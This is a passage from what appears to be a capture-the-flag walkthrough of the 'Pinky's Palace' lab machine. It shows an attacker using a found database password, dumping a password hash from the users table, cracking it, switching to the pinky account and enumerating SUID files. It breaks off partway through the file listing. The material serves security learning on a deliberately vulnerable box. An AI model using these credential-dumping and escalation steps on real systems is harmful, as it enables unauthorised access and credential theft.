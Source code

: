 Let's connect to the server and grab the credentials from the `user` table. 

{% highlight text %}
www-data@pinkys-palace:/var/www/html/portal_login$ mysql -u pinkys_dbu -h localhost -p
<l/portal_login$ mysql -u pinkys_dbu -h localhost -p
Enter password: pinkysDBp@55

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 41320
Server version: 10.1.26-MariaDB-0+deb9u1 Debian 9.1

Copyright (c) 2000, 2017, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> use pinkdash_db
use pinkdash_db
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [pinkdash_db]> SELECT * FROM users;
SELECT * FROM users;
+------+----------+----------------------------------+
| id   | username | password                         |
+------+----------+----------------------------------+
|    1 | pinky    | 65f7886a4b9fc1214e3c365222321f93 |
+------+----------+----------------------------------+
1 row in set (0.00 sec)
{% endhighlight %}

Great, together with Crackstation we are able to get the plain passowrd for the `pinky` user. 

{% highlight text %}
65f7886a4b9fc1214e3c365222321f93	md5	!!pinkbabygurl!!
{% endhighlight %}

Let's `su` into the user. 

{% highlight text %}
www-data@pinkys-palace:/var/www/html/portal_login$ su pinky
su pinky
Password: !!pinkbabygurl!!
{% endhighlight %}


During usual exploration, I've noticed a strange script `/usr/local/bin/justincase.py`.

{% highlight text %}
pinky@pinkys-palace:~$ find / -perm -g=s -o -perm -u=s -type f 2>/dev/null
find / -perm -g=s -o -perm -u=s -type f 2>/dev/null
/sbin/unix_chkpwd
/var/mail
/var/local
/var/log/mysql
/usr/local
/usr/local/share
/usr/local/share/sgml
/usr/local/share/sgml/declaration
/usr/local/share/sgml/entities
/usr/local/share/sgml/stylesheet
/usr/local/share/sgml/dtd
/usr/local/share/sgml/misc
/usr/local/share/emacs
/usr/local/share/emacs/site-lisp
/usr/local/share/xml
/usr/local/share/xml/declaration
/usr/local/share/xml/entities